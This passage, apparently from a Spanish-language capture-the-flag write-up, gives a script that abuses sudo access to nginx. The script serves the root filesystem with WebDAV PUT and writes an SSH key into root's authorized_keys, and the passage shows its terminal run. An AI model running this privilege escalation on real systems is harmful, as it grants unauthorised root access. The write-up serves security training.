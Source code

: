 ~~~bash
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
~~~
Luego darle permisos de ejecución y ejecutarlo, esto creara la nueva conexión ssh y la pasara al /root
~~~bash
activemq@broker:~$ chmod +x exp.sh 
activemq@broker:~$ ./exp.sh 
[+] Creating configuration...
[+] Loading configuration...
nginx: [emerg] bind() to 0.0.0.0:1339 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1339 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1339 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1339 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1339 failed (98: Unknown error)
nginx: [emerg] still could not bind()
[+] Generating SSH Key...
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): 
/home/activemq/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/activemq/.ssh/id_rsa
Your public key has been saved in /home/activemq/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:GG+aJvIP3k3waGgoC1vp2yRY0/+DyrwNDTxvHR0Hrmk activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
|          .      |
|         . .     |
|      .   o .    |
|   o   + + o     |
|  o = o E .      |
| o + B X .       |
|+ * B @.+        |
|.* @ X.+.        |
|o o.O++ o.       |
+----[SHA256]-----+
[+] Display SSH Private Key for copy...
~~~